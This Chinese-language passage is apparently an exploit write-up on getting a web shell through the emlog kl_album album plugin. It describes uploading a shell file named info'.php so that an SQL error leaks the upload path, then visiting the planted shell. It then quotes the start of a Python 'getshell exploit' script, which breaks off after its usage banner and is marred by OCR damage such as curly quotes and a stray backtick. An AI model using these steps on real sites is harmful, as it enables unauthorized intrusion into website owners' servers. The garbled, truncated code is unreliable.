填入目标url，并选择要上传的shell。（如图，我这里是info'.php，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php
访问可见shell：

![image](../img/4fa4299862a7e6e88e31a56e41c16413.png)

这里给出独自等待的一份payload：

```
#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf-8 -*-
# Date: 2015/4/30
# Created by 独自等待
# 博客 http://www.waitalone.cn/
import sys, os, re, time `try:

import requests

except ImportError:

raise SystemExit(’\n[!] requests模块导入错误,请执行pip install requests安装!’)

def usage():

# os.system([‘clear’, ‘cls’][os.name == ‘nt’])

print ‘+’ + ‘-’ * 60 + ‘+’

print ‘\t Python emlog相册插件getshell exploit’

print ‘\t   Blog：[http://www.waitalone.cn/](http://www.waitalone.cn/)’

print ‘\t\t Code BY： 独自等待’

print ‘\t\t Time：2015-04-30’

print ‘+’ + ‘-’ * 60 + ‘+’

if len(sys.argv) != 2:

print ‘用法: ’ + os.path.basename(sys.argv[0]) + ’ EMLOG 网站地址’

```